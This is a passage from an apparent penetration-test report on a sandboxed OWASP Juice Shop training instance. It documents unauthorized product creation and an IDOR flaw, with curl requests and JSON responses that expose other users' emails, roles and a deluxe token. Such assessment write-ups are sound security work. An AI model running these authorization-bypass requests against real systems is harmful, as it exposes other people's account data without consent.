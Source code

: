 **Proof of Impact:**
- **Product created** by regular customer account (Product ID 47)
- **Missing role validation** allows non-admin users to create products
- **Business disruption** through unauthorized product catalog manipulation
- **Content pollution** with potentially malicious or inappropriate products

### AUTHZ-VULN-01: User Profile Data Access (IDOR)

**Summary:**
- **Vulnerable location:** GET /api/Users/:id endpoint
- **Overview:** Any authenticated user can access any other user's profile data
- **Impact:** Complete user data exposure including emails, roles, and profile information
- **Severity:** High

**Prerequisites:**
Valid authentication token (any role)

**Exploitation Steps:**

1. Authenticate as regular customer (User ID 66)
2. Access admin user profile (User ID 4):
```bash
curl -s -i "http://juice-shop.sandbox.local:3001/api/Users/4" \
  -H "Authorization: Bearer [CUSTOMER_TOKEN]"
```

3. Receive unauthorized access to admin profile:
```json
{
  "status": "success",
  "data": {
    "id": 4,
    "username": "bkimminich",
    "email": "bjoern.kimminich@gmail.com",
    "role": "admin",
    "profileImage": "assets/public/images/uploads/defaultAdmin.png"
  }
}
```

4. Access deluxe user profile (User ID 13):
```bash
curl -s "http://juice-shop.sandbox.local:3001/api/Users/13" \
  -H "Authorization: Bearer [CUSTOMER_TOKEN]"
```

5. Receive deluxe user data including sensitive token:
```json
{
  "status": "success",
  "data": {
    "id": 13,
    "email": "bjoern@owasp.org",
    "role": "deluxe",
    "deluxeToken": "efe2f1599e2d93440d5243a1ffaf5a413b70cf3ac97156bd6fab9b5ddfcbe0e4"
  }
}
```
